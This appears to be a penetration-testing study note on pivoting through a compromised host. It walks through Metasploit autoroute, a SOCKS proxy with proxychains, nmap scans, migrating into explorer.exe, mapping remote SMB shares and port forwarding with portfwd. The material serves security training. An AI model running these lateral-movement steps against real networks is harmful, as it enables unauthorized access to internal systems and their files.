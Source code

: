 Read this after reading NetBIOS-SMB  file  
#### To access target2 via target1(compromised target) from attacker machine.
- We need to set pivot point as target1
- we can do that via (run autoroute -s target2_ip) in compromised target1's meterpreter session
- as we set pivot point through meterpreter now metasploit know about the routing path of target2 but our attacker machine don't know about the target2 routing path.
- Now if we want to access the target2 from our attacker machine we need to use auxiliary/server/socks_proxy module of metasploit which will inform our attacker  machine the routing path of target2 via target1.
- We need to configure the uxiliary/server/socks_proxy setting  same as a /etc/proxychains4.conf like rsvrhost,srvport etc.
- proxychains nmap -sT -sV -p 445 -Pn 10.5.17.251 [ run from attacker machine ]
- migrate -N explorer.exe  [ a meterpreter command for migrating to explorer ]
- net view 10.0.28.125 [ a windows command that is used for listing shares ]
- net use D: \\10.0.28.125\Documents [ mapping the remote share to local ]
- after mapping the shares we can access it like local file


#### port forwarding
- after auto route
- find the open ports in target2 using metasploit module
- portfwd add -l 1234 -p 80 -r target2.test.local [ for portforwing ]
- nmap -sV -p 1234 localhost [ use the same command for accessing target2 from our attacking machine ]
